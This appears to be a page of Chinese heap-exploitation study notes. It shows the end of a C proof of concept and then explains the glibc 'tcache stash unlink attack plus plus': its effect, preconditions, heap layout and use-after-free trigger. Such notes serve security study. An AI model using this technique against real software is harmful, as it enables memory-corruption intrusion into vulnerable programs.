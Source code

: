 ```c

    // 从tcache申请两个chunk
    malloc(0x100);
    malloc(0x100);

    /* vuln start */
    chunks[8][1] =  (size_t)&secret - 0x10;
    *(size_t*)((size_t)&secret + 0x8) = (size_t)&secret;
    /* vuln ends */

    calloc(1, 0x100);

    size_t* final_chunk = malloc(0x100);
    printf("After calloc, we malloc again and get a chunk addr of 0x%lx, which is secret on the stack.\n", (unsigned long)final_chunk);

    return 0;
}
```

# tcache stash unlink attack plus plus

## 适用版本

`glibc2.23-latest`

## glibc2.23 -latest

### 实现效果

申请任意位置`chunk`，同时往任意地址写一个`libc`地址

### 利用方式

- 对于同一个大小的`chunk`，确保`tcache`中和`smallbin`要修改处的`chunk`之和至少为`7`个，详情看注
- 能够修改`smallbin`中的`chunk`的`bk`为要申请的地址减去`0x10`，具体看注
- 要申请的地址`+8`处指向要写`libc`地址处的地址减去`0x10`
- 由于需要将`chunk`放置到`smallbin`，不能有`chunk`申请大小的限制
- 进行至少一次`calloc`

### 注：tcache和smallbin的堆风水

- 堆风水排布和`tcache stash unlink attack plus`版相同，也就是`tcache + smallbin`中总数为`7`个

![tcache_stash_unlink_calc2](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202402231540856.png)

### 常用触发方式

至少需要`UAF`
